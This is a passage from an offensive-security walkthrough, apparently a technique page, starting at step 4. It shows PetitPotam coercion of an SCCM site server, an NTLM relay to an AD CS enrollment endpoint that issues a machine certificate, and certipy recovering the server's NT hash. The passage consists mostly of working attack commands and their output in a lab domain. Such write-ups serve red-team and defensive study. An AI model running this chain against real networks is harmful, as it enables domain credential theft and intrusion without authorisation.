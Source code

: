     [*] Setting up RAW Server on port 6666
    [*] Servers started, waiting for connections
    ```

4. From the attacker host, coerce NTLM authentication from the site server via SMB, targeting the relay server's IP address:

    ```
    └─# python3 PetitPotam.py -u <USERNAME> -p <PASSWORD> <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:192.168.57.50[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the cert enrollment service to request a certificate for the coercion target:

    ```
    [*] SMBD-Thread-5: Received connection from 192.168.57.50, attacking target http://adcs.aperture.local
    [*] HTTP server returned error code 200, treating as a successful login
    [*] Authenticating against http://adcs.aperture.local as APERTURE/SITE-SERVER$ SUCCEED
    [*] SMBD-Thread-7: Received connection from 192.168.57.50, attacking target http://adcs.aperture.local
    [*] HTTP server returned error code 200, treating as a successful login
    [*] Authenticating against http://adcs.aperture.local as APERTURE/SITE-SERVER$ SUCCEED
    [*] Generating CSR...
    [*] CSR generated!
    [*] Getting certificate...
    [*] GOT CERTIFICATE! ID 3
    [*] Writing certificate to ./SITE-SERVER$.pfx
    [*] Certificate successfully written to file
    ```

5. Use `certipy` to recover the coerced target's NT hash:

    ```
    certipy auth -pfx SITE-SERVER\$.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: site-server$@aperture.local
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'site-server.ccache'
    [*] Trying to retrieve NT hash for 'site-server$'
    [*] Got hash for 'site-server$@aperture.local': aad3b435b51404eeaad3b435b51404ee:0bce...0314
    ```
